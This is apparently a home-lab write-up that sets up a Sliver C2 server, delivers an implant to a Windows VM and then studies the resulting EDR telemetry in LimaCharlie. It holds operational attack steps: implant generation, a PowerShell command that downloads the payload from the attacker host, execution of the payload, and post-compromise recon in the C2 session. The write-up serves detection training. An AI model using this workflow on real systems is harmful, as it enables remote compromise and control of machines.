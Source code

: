 # Generate the C2 payload
### Ubuntu Server
1. SSH into the Ubuntu server and drop into root shell:
   `sudo su`
2. Change directory to the Sliver directory created earlier:
   `cd /opt/sliver`
3. Launch the Sliver server
   `sliver-server`
   ![](https://i.imgur.com/w7MFCCE.png)
4. Generate the C2 session payload, within the Sliver shell.
   `generate --http [Ubuntu_VM_IP] --save /opt/sliver`![](https://i.imgur.com/D9MIHge.png)
5. Confirm the new implant configuration:
   `implants`![](https://i.imgur.com/ZquXU2X.png)
6. Exit Sliver by using `exit` command, and drop the C2 payload to the Windows VM by creating a temporary web server with Python.
   `cd /opt/sliver`
   `python3 -m http.server 80`
### Windows VM
1. Launch Administrative Powershell, and run the following command
   ```
   IWR -Uri http://[Ubuntu_VM_IP]/[payload_name].exe -OutFile C:\Users\User\Downloads\[payload_name].exe
	```
	*the payload name is the unique name generated by Sliver, in my case it was COMBATIVE_SHEET*
2. Create a snapshot before executing the malware.![](https://i.imgur.com/HpjnKZa.png)
# Start the Command & Control Session
### Ubuntu Server
1. Terminate the Python web server.
   `Ctrl+C`
2. Relaunch sliver
   `sliver-server`
3. Start the Sliver HTTP listener
   `http`
   ![](https://i.imgur.com/STD1HdB.png)
### Windows VM
1. Execute the C2 payload download via the Administrative Powershell
   `C:\Users\User\Downloads\<c2_payload>.exe`
### Ubuntu Server
1. Back on the Sliver Session, there should be a session check show up as shown![](https://i.imgur.com/HteQP4S.png)
2. Verify the session in Sliver and note down the Session ID
   `sessions`![](https://i.imgur.com/ikiBFgQ.png)
   `Session ID: fd1addb0`
3. Interact with the C2 session by using the following command:
   `use [session_id]`![](https://i.imgur.com/TMNkVF9.png)
4. Now, there is direct session to interact with the Windows VM. Now let's run some basic recon commands:
	1. Get basic info about the session:
	   `info`
	   ![](https://i.imgur.com/qN3ByK7.png)
	2. Find out what user and the privileges of the user had
	   `whoami`
	   ![](https://i.imgur.com/KTxqUd1.png)
	   `getprivs`![](https://i.imgur.com/fRQHpw6.png)
	3. Identify the working directory of the implant
	   `pwd`
	   ![](https://i.imgur.com/JKzDCP9.png)
	4. Examine the network connections on the remote system
	   `netstat
	   ![](https://i.imgur.com/MI34qEv.png)
	   - The highlighted connection is the implant's
	   - rphcp.exe is LimaCharlie's
	5. Identify the running processes
	   `ps -T`
	   ![](https://i.imgur.com/xTSwZ0J.png)![](https://i.imgur.com/yGNOTr6.png)
	   Sliver will highlight the defensive product in Red and its own process in Green. It will also show the Security Product used by the system.

# Observe the EDR Telemetry
### LimaCharlie
1. Go to LimaCharlie web UI, and click on the active Windows sensor.
   ![](https://i.imgur.com/BTO0QFS.png)
2. On the right panel, click on "Processes" to examine the processes running on the Windows VM. As shown in the image below, there is one processes that is **Not Signed** *(without the Green Check Mark)*. Therefore, it would be unusual process.
	![](https://i.imgur.com/qeDxf9R.png)
3. The Network Connections can also be viewed by clicking on the three-dots at the side of the process. It will show the IP address, ports, protocols and state of the connection.![](https://i.imgur.com/9palrz7.png)
4. By clicking into the "Network" tab on the right panel, we can find search for the Destination IP by using `Ctrl + F` with the destination IP as the keyword and found several processes linked to it.![](https://i.imgur.com/o9pjSRh.gif)
5. Next, go to the "File System" on the right panel, and navigate to the path where the implant is running from which can be determined from the "Processes" tab earlier. Then the file hash can be inspected and search on VirusTotal for any matching signature.![](https://i.imgur.com/2fsGsfH.gif)
   However, there is no match found for the file hash. Because the payload is just generated on our own and it's not available in the VirusTotal database yet. This would be more suspicious if the file is suspected to be a malware, as VirusTotal have a huge database of malware sample, hence the sample file might be a custom-made malware.
6. Next, go to the "Timeline", and filter the timeline with known Indicator of Compromise (name of the file, IP address of the C2).![](https://i.imgur.com/aLp26gT.png)
   As shown above, once the malware is launched it immediately started communicating with the C2 server.
